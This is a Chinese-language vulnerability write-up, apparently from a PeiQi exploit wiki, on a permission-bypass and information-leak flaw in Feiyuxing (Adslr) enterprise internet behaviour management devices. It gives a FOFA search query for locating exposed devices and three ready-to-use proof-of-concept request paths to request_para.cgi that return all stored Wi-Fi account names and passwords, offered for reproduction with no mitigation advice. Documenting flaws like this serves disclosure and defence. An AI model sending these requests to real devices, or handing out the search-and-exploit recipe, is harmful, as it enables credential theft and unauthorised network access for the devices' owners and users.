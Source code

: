 ```yaml
---
title: 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 飞鱼星
---
```


# 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

> [!NOTE]
>
> 飞鱼星 企业级智能上网行为管理系统

## FOFA

> [!NOTE]
>
> title="飞鱼星企业级智能上网行为管理系统"

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![](/img/20210924013858168962.png)

## Goby & POC

> [!NOTE]
>
> Adslr Enterprise online behavior management system Information leakage

![](/img/20210924013859211719.png)

